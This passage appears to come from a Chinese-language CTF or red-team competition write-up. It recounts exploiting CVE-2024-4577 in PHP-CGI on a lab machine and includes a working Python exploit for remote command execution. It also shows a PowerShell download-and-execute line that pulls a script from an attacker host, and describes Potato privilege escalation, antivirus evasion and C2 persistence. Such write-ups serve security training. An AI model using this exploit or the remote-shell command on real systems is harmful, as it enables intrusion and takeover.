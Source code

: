 這時候已經可以確定當初想法是正確了（CVE-2024-4577），開打！

網路上找了隨便一個 [exploit](https://github.com/watchtowrlabs/CVE-2024-4577)，挺順利就拿下這台的 shell 了，exploit:

```python!
import warnings
warnings.filterwarnings("ignore", category=DeprecationWarning)
import requests
requests.packages.urllib3.disable_warnings()
import argparse

print(banner)
print("(^_^) prepare for the Pwnage (^_^)\n")

parser = argparse.ArgumentParser(usage="""python CVE-2024-4577 --target http://192.168.1.1/index.php -c "<?php system('calc')?>""")
parser.add_argument('--target', '-t', dest='target', help='Target URL', required=True)
parser.add_argument('--code', '-c', dest='code', help='php code to execute', required=True)
args = parser.parse_args()
args.target = args.target.rstrip('/')


s = requests.Session()
s.verify = False

a = input()
res = s.post(f"{args.target.rstrip('/')}?%ADd+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input", data=f"<?php system('{a}'); ?>;echo 1337; die;" )
print(res.text)
if('1337' in res.text ):
    print('(+) Exploit was successful')
else:
    print('(!) Exploit may have failed')
```

拿下 flag 後， `whoami && whoami /priv` 發現是 services accounts 且具有 `SeImpersonatePrivilege` 權限，因此到這邊已經有大概率成功拿到最高權限了，先不急，把一個低權限 shell 彈回來。

```python
python3 cgi.py --target http://172.0.0.66/dinbendon/index.php -c "x" > x; cat x | less
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString(\"http://10.0.0.253:13001/pyp.ps1\")"
```

俗話說
> "if you have Impersonation privileges you are SYSTEM!" 
> @decoder_it


既然有 `Impersonation` 那簡直就是叫我們來發動 Potatos！ 這部分感謝 DEVCORE 導師 Cyku 跟 Mico 平時的訓練，這邊提權的挺順利的ＸＤ

成功躲過防毒，並且獲得了 `nt system`，且成功獲得了第二把 flag，彈一個 shell 給隊友 pwn2ooown 做持久化（關防毒、裝 c2 與設定 RDP）

這時候已經聽說 B 機器 TriangleSnake 跟 Chumy 成功 Get Shell 了，但還沒成功提權，就先跳過去看。


## 將 B 機器提權至 root，並在上面東翻西翻
